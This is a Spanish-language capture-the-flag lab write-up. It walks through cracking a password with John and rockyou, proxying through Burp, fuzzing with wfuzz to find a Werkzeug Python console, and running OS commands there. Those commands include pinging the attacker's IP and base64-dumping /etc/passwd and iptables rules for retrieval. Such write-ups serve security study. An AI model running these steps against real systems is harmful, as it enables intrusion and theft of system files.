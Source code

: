 ## Vulnerability Assessment {-}

### John {-}

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt passwords
```

Ya hemos crackeado la contraseña. Intentamos connectar por ssh pero no functiona.

Pues ponemos las credenciales en el foxyproxy.

### Connectamos por la web a la 127.0.0.1 {-}

Hay una pagina que propone shortear una url. Vamos a testear el servicio web

1. Nos creamos un servidor web con python

    ```bash
    python -m http.server 80
    ```
1. En el servicio intentamos shortear la url `http://10.10.14.20/test`

No hace nada. Vemos en el codigo fuente que hay un recurso `/list`. La idea aqui es applicar fuzzing. Como tenemos que passar
por un proxy, vamos a utilizar **Burp** para connectar el fuzzer con el proxy.

1. Creamos un Proxy Server.

    - En la pagina **User options** de Burp, creamos un proxy server

        ```r
            knitr::include_graphics("images/burp-create-proxy-server.png")
        ```

1. Añadir el puerto 80 para utilizar **curl** y **wfuzz**

    ```r
        knitr::include_graphics("images/burp-add-port-80-1.png")
    ```

    ```r
        knitr::include_graphics("images/burp-add-port-80-2.png")
    ```

1. Testeamos con **curl**

    ```bash
    curl -s http://127.0.0.1 | html2text
    ```

Ya no nos pone el mensaje de error `Conexion reusada`, quiere decir que el server proxy que hemos creado con
BurpSuite functiona. Ya podemos applicar fuzzing.

### WFUZZ {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2-3-medium.txt http://127.0.0.1/FUZZ
```

Encontramos el recurse `/console`

### Consola Interactiva {-}

Estamos en frente de una consola interactiva donde se puede executar code en python

```python
import os

os.system('whoami')
#Output
0
```

En este caso la respuesta al lado del servidor es `0`. Suponemos que la respuesta es el codigo de estado. Utilizamos la funccion
`os.popen(<command>).read()` para ver el output normal.

```python
os.popen('whoami').read()
#Output
'Werkzeug'
```

El commando functionna. Ahora intentamos **pingear** nuestra maquina de attaquante.

1. en la maquina de attaquante

    ```bash
    tcpdump -i tun0 icmp -n
    ```

1. En la consola interactiva python

    ```python
    os.system('ping -c 1 10.10.14.20')
    ```

Recibimos la trasa ICMP.

Intentamos recuperar ficheros de la maquina victima antes de entablar una reverse shell. Como el commando
`os.popen('cat /etc/passwd').read()` nos retorna el resultado en una linea y que no es muy legible, S4vi nos
recommienda encryptar la respuesta en base 64 para despues decodificarlo en la maquina de attaquante con el commando
`echo "<cadena codificada en base64>" | base64 -d; echo`

```python
os.popen('base64 -w 0 /etc/passwd').read()
os.popen('base64 -w 0 /etc/iptables/rules.v4').read()
```

El iptables nos muestra con la linea `-A OUTPUT -o ens33 -p tcp -m state --state NEW -j DROP` que la maquina victima nos
va a rechazar todas las communicaciones por **TCP**. Es por esta razon que no hemos creado directamente una reverse shell.
 
